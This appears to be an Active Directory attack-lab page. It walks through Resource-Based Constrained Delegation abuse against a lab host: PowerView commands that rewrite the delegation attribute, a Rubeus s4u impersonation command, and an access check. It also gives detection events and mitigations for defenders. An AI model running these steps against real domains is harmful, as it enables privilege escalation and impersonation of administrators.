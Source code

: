# Attack Scenario: Resource-Based Constrained Delegation (RBCD) Abuse
This scenario demonstrates abuse of Resource-Based Constrained Delegation, where an attacker controlling a machine account configures another machine to trust it for delegation. This enables impersonation of any domain user (including privileged ones) when accessing services on that resource.

## MITRE ATT&CK Techniques:
- T1550.002 – Pass-the-Ticket
- T1134.001 – Token Impersonation/Theft

##  Lab Environment
- **Controlled machine account:** WS01$
- **Target system:** APP01.internal.lab
- **Domain Controller:** dc01.internal.lab
- **Privileged user:** admin.internal.lab

Preconditions:

- Attacker has rights to modify the msDS-AllowedToActOnBehalfOfOtherIdentity attribute on APP01
- Kerberos Constrained Delegation is configured on the domain

## Objectives
Configure RBCD to allow WS01$ to impersonate any user on APP01

Impersonate a high-privilege user (e.g., Domain Admin)

Access resources on the target machine as that user

## Execution Steps
### 1. Confirm You Control a Machine Account
Use PowerView:

```Get-DomainComputer -Identity WS01```

You should have the ability to modify other objects (GenericWrite, GenericAll, or WriteProperty).

### 2. Configure RBCD on the Target
Use Set-ADComputer (requires ActiveDirectory module or PowerView):

```
$SID = Get-DomainComputer WS01 | Select -ExpandProperty objectsid
$SD = New-Object Security.AccessControl.CommonSecurityDescriptor $false, $false, 'D:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;' + $SID.Value + ')'
Set-DomainObject -Identity APP01 -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SD.GetSddlForm('All')}
```

### 3. Trigger Delegation Using s4u2proxy
Use Rubeus (attacker-side):

```Rubeus.exe s4u /user:WS01$ /rc4:<hash> /impersonateuser:admin /msdsspn:cifs/APP01.internal.lab /ptt```
### 4. Confirm Access
Try:

```dir \\APP01\C$ or Enter-PSSession using injected ticket```

## Detection Guidance
### Defender for Identity:
Unusual delegation configurations

"Suspicious Kerberos delegation usage"

### Logs:
- 4742: Computer object modified (RBCD attribute)
- 4769: TGS requests for high-privileged users using delegation
- 4624: Logon events to APP01 from an unusual machine account

## Mitigations
- Monitor and restrict GenericAll / WriteProperty permissions on computer objects
- Alert on changes to msDS-AllowedToActOnBehalfOfOtherIdentity
- Use gMSAs and tiered admin access to reduce risk
- Limit account permissions with Least Privilege principles

## References
- https://dirkjanm.io/abusing-active-directory-acls-weaponizing-ldap/
- https://github.com/GhostPack/Rubeus
- https://adsecurity.org/?p=4056
- https://attack.mitre.org/techniques/T1550/002/

## Navigation
← [Back to Lab Index](../../README.md)
→ [Related: Unconstrained Delegation Abuse](./unconstraied-delegation.md)